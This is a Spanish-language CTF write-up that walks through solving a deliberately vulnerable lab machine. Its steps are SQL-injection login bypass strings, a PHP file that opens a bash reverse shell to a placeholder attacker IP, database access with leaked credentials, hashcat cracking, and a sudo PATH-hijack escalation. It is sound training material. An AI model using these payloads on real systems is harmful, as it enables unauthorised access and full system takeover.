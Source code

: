 ```yaml
---
layout: /src/layouts/MDLayout.astro
title: Cómo resolver monkey vuln machine
description: Learn how to solve a CTF machine in this post. Discover how to perform a login bypass, decrypt hashes, escalate privileges, and more.
---
```

**Es importante tener en cuenta que el siguiente post contiene spoilers y revela la solución a una máquina de CTF. Si aún no has resuelto la máquina y quieres hacerlo por ti mismo, te recomendamos que no sigas leyendo. ¡Buena suerte resolviendo la máquina!**

https://github.com/wanetty/monkey_vuln_machine

En los eventos de CTF, los participantes tienen como objetivo encontrar vulnerabilidades en sistemas y aplicaciones para obtener acceso no autorizado y, en última instancia, encontrar la "bandera" o la respuesta a un desafío en particular. En este post, veremos cómo resolver una máquina de CTF siguiendo una serie de pasos.

## Bypass de login

En primer lugar, intentaremos acceder a la aplicación utilizando una técnica de "Bypass de login". Para ello, se pueden utilizar las siguientes inyecciones de SQL:


```bash
test ' or 1 = 1 --  test 
' or 'a' = 'a' --
```

Estas inyecciones explotan una vulnerabilidad en el código de la aplicación y permiten acceder sin necesidad de proporcionar las credenciales correctas.

## Subida de ficheros

Una vez dentro de la aplicación, podemos aprovechar una vulnerabilidad de subida de ficheros para subir un archivo que nos permita establecer una conexión de "Reverse Shell". Para ello, podemos utilizar un archivo PHP con el siguiente contenido:

```php
<?php     
	exec("/bin/bash -c 'bash -i >& /dev/tcp/IP_DEL_ATACANTE/PUERTO 0>&1'"); 
?>
```

Debemos sustituir "IP_DEL_ATACANTE" y "PUERTO" con nuestra propia dirección IP y un puerto que esté disponible para la conexión.

## Conexión base de datos

Una vez que hemos conseguido una Reverse Shell, podemos buscar las credenciales de conexión a la base de datos en el código de la aplicación. En este caso, encontramos las credenciales en el archivo `login.php`.

Utilizamos las credenciales para conectarnos a la base de datos mediante el siguiente comando:

```bash
mysql -h mariadb -u Threepwood -pmonkeyisland user_db
```

## Descifrando hashes

Dentro de la base de datos encontramos un archivo de hashes. Para descifrarlos, podemos utilizar la herramienta `hashcat` y una lista de palabras comunes. El comando para descifrar los hashes en el archivo `hashes.txt` utilizando la lista de palabras `rockyou.txt` sería:

```bash
hashcat -m 0 hashes.txt /usr/share/wordlist/rockyou.txt
```

## Escalada de privilegios

Finalmente, para escalar nuestros privilegios, buscamos en el sistema algún comando que podamos ejecutar con permisos de super usuario. En este caso, encontramos un script llamado `find_chest.sh` que se puede ejecutar como super usuario sin necesidad de introducir una contraseña. Además, este script utiliza la variable `cat` de forma relativa, lo que significa que podemos manipular la variable `$PATH` para ejecutar cualquier comando con permisos de super usuario. Para ello, ejecutamos el siguiente comando:
```bash
sudo PATH=$(pwd):$PATH /home/Guybrush/find_chest.sh
```

Con esto, conseguimos ejecutar el comando que queramos con permisos de super usuario, lo que nos permite completar el desafío.



